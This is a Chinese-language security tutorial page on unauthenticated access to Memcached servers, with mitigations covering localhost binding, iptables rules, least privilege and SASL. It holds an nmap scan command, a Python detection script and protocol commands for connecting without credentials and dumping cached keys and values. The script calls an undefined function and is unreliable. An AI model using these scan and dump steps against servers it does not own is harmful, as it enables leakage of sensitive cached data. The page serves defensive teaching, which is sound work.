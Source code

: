 # Memcache 未授权访问

> 原文：[http://book.iwonder.run/0day/Memcache/1.html](http://book.iwonder.run/0day/Memcache/1.html)

## 一、漏洞简介

> memcached 是一套分布式的高速缓存系统。它以 Key-Value（键值对）形式将数据存储在内存中，这些数据通常是应用读取频繁的。正因为内存中数据的读取远远大于硬盘，因此可以用来加速应用的访问。

## 二、影响范围

## 三、复现过程

#### 1.扫描探测

```
nmap -sV -p 11211 --script memcached-info 0.0.0.0 
```

![image](img/442b7c188b2647fd966a4648fef73ff9.png)

```
##! /usr/bin/env python
## _*_  coding:utf-8 _*_
def Memcache_check(ip, port=11211, timeout=5):
    try:
        socket.setdefaulttimeout(timeout)
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((ip, int(port)))
        s.send("stats\r\n")
        result = s.recv(1024)
        if "STAT version" in result:
            print '[+] Memcache Unauthorized: ' +ip+':'+str(port)
    except Exception, e:
        pass
if __name__ == '__main__':
    Elasticsearch_check("127.0.0.1") 
```

#### 2.攻击利用

##### 2.1 基础部分

通过一个<font color="red">cheat sheet</font>了解一下 Memcached 的协议。Memcached 的语法由如下元素组成

*   {COMMAND}0x20{ARGUMENT}(LF|CRLF)

command 字段有如下几条命令

*   存储操作(set, add, replace, append, prepend, cas)
*   检索操作 (get, gets)
*   删除操作 (delete)
*   增减操作 (incr, decr)
*   touch
*   slabs reassign
*   slabs automove
*   lru_crawler
*   统计操作(stats items, slabs, cachedump)
*   其他操作 (version, flush_all, quit)

| Command | 描述 | 实例 |
| --- | --- | --- |
| get | 读某个值 | get mykey |
| set | 强制设置某个键值 | set mykey 0 60 5 |
| add | 添加新键值对 | add newkey 0 60 5 |
| replace | 覆盖已经存在的 key | replace key 0 60 5 |
| flush_all | 让所有条目失效 | flush_all |
| stats | 打印当前状态 | stats |
| stats malloc | 打印内存状态 | stats malloc |

version | 打印 Memcached 版本 | version

```
stats  //查看 memcache 服务状态
stats items  //查看所有 items
stats cachedump 32 0  //获得缓存 key
get :state:264861539228401373:261588   //通过 key 读取相应 value ，获得实际缓存内容，造成敏感信息泄露 
```

#### 2.2 建立连接并获取信息

telnet <target>11211，或 nc -vv <target>11211，无需用户名密码，可以直接连接 memcache 服务的 11211 端口。</target></target>

![image](img/e19b933f89c5ac40aed5a9c91b7fb1a9.png) 附赠大佬写的文章 [Discuz!因 Memcached 未授权访问导致的 RCE](https://xz.aliyun.com/t/2018)

#### 3.防范措施

##### 1.限制访问

如果 memcache 没有对外访问的必要，可在 memcached 启动的时候指定绑定的 ip 地址为 127.0.0.1。其中 -l 参数指定为本机地址。例如： memcached -d -m 1024 -u root -l 127.0.0.1 -p 11211 -c 1024 -P /tmp/memcached.pid

或者 vim /etc/sysconfig/memcached，修改配置文件 OPTIONS="-l 127.0.0.1"，只能本机访问，不对公网开放，保存退出 /etc/init.d/memcached reload

##### 2.防火墙

```
// accept
## iptables -A INPUT -p tcp -s 127.0.0.1 --dport 11211 -j ACCEPT
## iptables -A INPUT -p udp -s 127.0.0.1 --dport 11211 -j ACCEPT

// drop
## iptables -I INPUT -p tcp --dport 11211 -j DROP
## iptables -I INPUT -p udp --dport 11211 -j DROP

// 保存规则并重启 iptables
## service iptables save
## service iptables restart 
```

##### 3.使用最小化权限账号运行 Memcached 服务

使用普通权限账号运行，指定 Memcached 用户。

```
memcached -d -m 1024 -u memcached -l 127.0.0.1 -p 11211 -c 1024 -P /tmp/memcached.pid 
```

##### 4.启用认证功能

Memcached 本身没有做验证访问模块,Memcached 从 1.4.3 版本开始，能支持 SASL 认证。[SASL 认证详细配置手册](http://www.postfix.org/SASL_README.html?spm=a2c4g.11186623.2.5.RpKdcX##saslauthd)

##### 5.修改默认端口

修改默认 11211 监听端口为 11222 端口。在 Linux 环境中运行以下命令：

```
memcached -d -m 1024 -u memcached -l 127.0.0.1 -p 11222 -c 1024 -P /tmp/memcached.pid 
```

##### 6.定期升级

参考:

*   [http://lzone.de/cheat-sheet/memcached](http://lzone.de/cheat-sheet/memcached)
*   [https://www.secpulse.com/archives/49659.html](https://www.secpulse.com/archives/49659.html)
*   [https://www.sensepost.com/blog/2010/blackhat-write-up-go-derper-and-mining-memcaches/](https://www.sensepost.com/blog/2010/blackhat-write-up-go-derper-and-mining-memcaches/)
*   [https://www.blackhat.com/docs/us-14/materials/us-14-Novikov-The-New-Page-Of-Injections-Book-Memcached-Injections-WP.pdf](https://www.blackhat.com/docs/us-14/materials/us-14-Novikov-The-New-Page-Of-Injections-Book-Memcached-Injections-WP.pdf)
*   [http://niiconsulting.com/checkmate/2013/05/memcache-exploit/](http://niiconsulting.com/checkmate/2013/05/memcache-exploit/)
*   [https://xz.aliyun.com/t/2018](https://xz.aliyun.com/t/2018)
*   [http://drops.xmd5.com/static/drops/web-8987.html](http://drops.xmd5.com/static/drops/web-8987.html)
*   [https://blog.csdn.net/microzone/article/details/79262549](https://blog.csdn.net/microzone/article/details/79262549)

